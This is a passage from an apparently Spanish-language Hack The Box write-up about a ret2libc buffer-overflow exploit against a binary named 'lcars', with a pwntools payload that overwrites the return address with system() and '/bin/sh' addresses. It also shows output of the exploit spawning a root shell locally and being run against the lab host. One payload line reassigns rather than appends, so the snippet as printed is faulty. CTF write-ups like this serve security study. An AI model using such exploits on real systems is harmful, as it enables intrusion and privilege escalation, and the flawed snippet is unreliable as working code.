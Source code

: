 ```py
...
payload = ("A"*212).encode() # Pasamos la cadena a bytes para poder concatenarla
payload += p32(0xf7d7ffa0, endian='little') # system()
payload = ("B"*4).encode() # + Basurita en bytes
payload += p32(0xf7ec733c, endian='little') # /bin/sh
...
```

Entonces (leyendo artículos):

> "So our next 4 bytes will be either a valid return adress (perhaps another C library function ^^?), or some random garbage", tomado de [Exploiting Techniques - ret2libc](https://0x00sec.org/t/exploiting-techniques-000-ret2libc/1833).

Como bien dice ahí, los siguientes 4 bytes despues de la función `system()` podrían ser o basura o alguna otra función del programa, pero debe ir algo (:

Listo, ejecutemos:

```bash
❭ python3 exploit.py ./lcars
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process './lcars': pid 1163091
[*] Switching to interactive mode

$ whoami
root
$ hostname -I
10.10.14.17
$  
```

Bieeeeeeeeeeeeeeeen, tenemos una `/bin/sh`, en este caso en nuestra máquina, pero ya podríamos indicarle el argumento **REMOTE**, para que tome la dirección IP y el puerto de la máquina víctima:

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
$ id
$ 
[*] Closed connection to 10.10.10.61 port 32812
[*] Got EOF while sending in interactive
```
